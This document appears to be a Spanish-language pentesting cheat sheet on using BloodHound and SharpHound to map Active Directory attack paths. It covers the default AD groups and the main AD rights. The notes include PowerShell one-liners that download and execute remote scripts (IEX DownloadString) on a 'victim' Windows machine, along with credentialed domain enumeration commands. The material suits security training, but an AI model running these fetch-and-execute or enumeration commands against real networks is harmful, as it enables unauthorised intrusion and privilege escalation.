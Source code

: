 # Bloodhound 

Tags: #AD #BloodHound #SharpHound 

**BloodHound** es una herramienta especializada en analizar y mapear relaciones dentro de Active Directory (AD). Su capacidad para identificar rutas de ataque y relaciones complejas la ha convertido en una herramienta esencial tanto para pentesters como para atacantes. A través de la recopilación y visualización de datos, permite descubrir configuraciones inseguras, privilegios excesivos y posibles vectores de escalación de privilegios o movimiento lateral en entornos AD, lo que la hace invaluable en auditorías de seguridad y pruebas de penetración.

```bash 
1. Visualización de Relaciones: BloodHound utiliza gráficos para mostrar las relaciones entre usuarios, grupos, computadoras y otros componentes en un AD. Estas visualizaciones hacen que sea más fácil para un atacante o pentester entender rápidamente las relaciones complejas y encontrar potenciales caminos de ataque.
    
2. Identificación de Caminos de Ataque: Uno de los principales valores de BloodHound es su capacidad para identificar caminos de escalada de privilegios y movimiento lateral. Al alimentar a BloodHound con datos recopilados, la herramienta puede identificar caminos específicos que un atacante puede seguir para escalar privilegios o moverse lateralmente a través de una red.
    
3. Automatización: La recopilación manual de detalles sobre las relaciones AD puede ser extremadamente lenta y tediosa. BloodHound, junto con su componente de recopilación de datos llamado SharpHound, automatiza gran parte de este proceso, permitiendo a los pentesters recopilar y analizar datos rápidamente.
    
4. Identificación de Vulnerabilidades Comunes: BloodHound también puede identificar patrones comunes que a menudo son vulnerables a la explotación, como configuraciones de delegación inseguras, miembros excesivamente permisivos en grupos de alto privilegio, y usuarios que tienen derechos de sesión local en sistemas críticos.
    
5. Capacidades de Análisis Avanzado: Aparte de identificar caminos obvios, BloodHound puede ayudar a identificar relaciones no evidentes que podrían ser explotadas. Por ejemplo, un usuario podría no tener privilegios directos sobre un recurso, pero a través de una serie de relaciones y delegaciones, podría tener una ruta de acceso indirecto.
    
6. Capacitación y Conciencia: Para defensores y equipos de seguridad, BloodHound también puede ser una herramienta valiosa. Al visualizar la estructura de permisos y las relaciones dentro de AD, los defensores pueden anticiparse a potenciales vías de ataque y tomar medidas para mitigar los riesgos.
```

## Grupos predeterminados de Active Directory:

```bash 
1. 'Domain Admins': Este grupo tiene control total sobre todos los dominios en el bosque. Cualquier usuario que sea miembro de este grupo puede realizar cualquier cambio en el dominio, como crear o eliminar otros usuarios, grupos y modificar políticas de seguridad.
2. 'Enterprise Admins': Los miembros de este grupo tienen permisos para realizar cambios a nivel de toda la empresa, incluidos todos los dominios y bosques.
3. 'Schema Admins': Los usuarios en este grupo pueden hacer cambios en el esquema de AD, que es la definición de objetos y atributos que pueden ser creados y almacenados en AD.
4. 'Account Operators': Pueden administrar las cuentas de usuario y grupos dentro de un dominio, pero no pueden modificar los miembros de los grupos de administradores ni cambiar la configuración de los servidores de dominio. Por lo que puedes crear, modificar cuentas de usuario.
5. 'Exchange Windows Permissions': Puede otorgar los permisos necesarios para que Exchange pueda interactuar con objetos de Active Directory, como usuarios, buzones y grupos. Los miembros de este grupo tienen permisos especiales en contenedores específicos de AD para realizar tareas como crear, modificar y administrar objetos relacionados con Exchange. 
6. 'Backup Operators': Pueden realizar copias de seguridad y restaurar archivos en un servidor, independientemente de los permisos de acceso a esos archivos.
7. 'Server Operators': Pueden realizar tareas de mantenimiento en servidores de dominio.
8. 'Guests': Es un grupo que por defecto tiene privilegios mínimos, y generalmente se utiliza para proporcionar acceso temporal o limitado a la red.
9. 'DNS Admins': Es un grupo especial que tiene privilegios administrativos sobre el servicio DNS del dominio.
10. 'Domain Users': Este grupo incluye todas las cuentas de usuario en un dominio. A menudo se verifica para identificar posibles cuentas huérfanas o no utilizadas.
11. 'Domain Computers': Este grupo incluye todas las estaciones de trabajo y servidores unidos al dominio.
12. 'Domain Controllers': Este grupo incluye todos los controladores de dominio en un dominio. Es esencial garantizar que sólo las máquinas confiables sean parte de este grupo.
13. 'Read-Only Domain Controllers - RODC': Si la organización utiliza RODCs, es esencial garantizar que estén configurados correctamente.
```

## Tipos de ActiveDirectoryRights

```bash 
Los 'ActiveDirectoryRights' incluyen, pero no se limitan a:

1. Read/Write: Leer y escribir información en objetos de AD.
2. Delete: Derechos para eliminar objetos.
3. CreateChild/DeleteChild: Crear o eliminar objetos hijos en un contenedor.
4. Self: Derechos para modificar información propia.
5. GenericAll: Control total sobre el objeto, incluyendo todos los derechos anteriores.
6. WriteDacl: Modificar la lista de control de acceso discrecional (DACL).  
7. WriteOwner: Cambiar el propietario de un objeto.
```

## SharpHound 

* [SharpHound](https://github.com/SpecterOps/BloodHound-Legacy/blob/master/Collectors/SharpHound.ps1)
* [SharpHound](https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1)

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1'); 
❯ Invoke-BloodHound -CollectionMethod All     

Nota: Estos comandos los ejecutamos en la maquina victima Windows para recolectar la información y obtener un archivo '.zip' el cual pasaremos a la herramienta de 'BloodHound' para el analisis 
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada

Nota: Podemos usar ADPeas para hacer la recolección ya que automaticamente ejecuta 'SharpHound'
```

## SharpHound con credenciales Validas desde un CMD en Windows 

```bash 
# Autenticarse en un 'CMD' en Windows con credenciales validas
❯ runas /netonly /user:domain1.com\username cmd    # Autenticarse con credenciales validas a nivel de red en una CMD en Windows> Este comando abrirá una nueva CMD con las credenciales 

❯ dir \\IP\DIR           # Enumerar el directorio con el usuario autenticado desde una CMD en Windows 

❯ .\SharpHound.exe -c all -d domain1.com --domaincontroller IP   # Enumeración con SharpHound a un dominio con credenciales validas desde una CMD en Windows.
Nota: La herramienta regresará un archivo '.zip' que se debe cargar en 'BloodHound' para analizar

❯ python3 -m http.server 80     # Crear un recurso compartido a nivel de red para pasar archivos 
```

## BloodHount 

* [BloodHound](https://github.com/SpecterOps/BloodHound-Legacy/releases)
* [CustomQueries.json - BloodHound](https://github.com/CompassSecurity/BloodHoundQueries)
* [Neo4j-installation](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/)

```bash 
❯ neo4j console &> /dev/null & disown      # Iniciamos el servicio en el puerto local '7474' y lo independizamos

Nota: Si es la primera vez que se usa, abrir la web 'localhost:7474', agregar las credenciales 'neo4j:neo4j', despues, colocar una nueva passwd y conectarse al 'Bloodhound'


❯ ./BloodHound --no-sandbox             # Ejecutar como usuario 'root' 
❯ bloodhound &> /dev/null & disown      # Ejecutar 'Bloodhound' e independizarlo
```

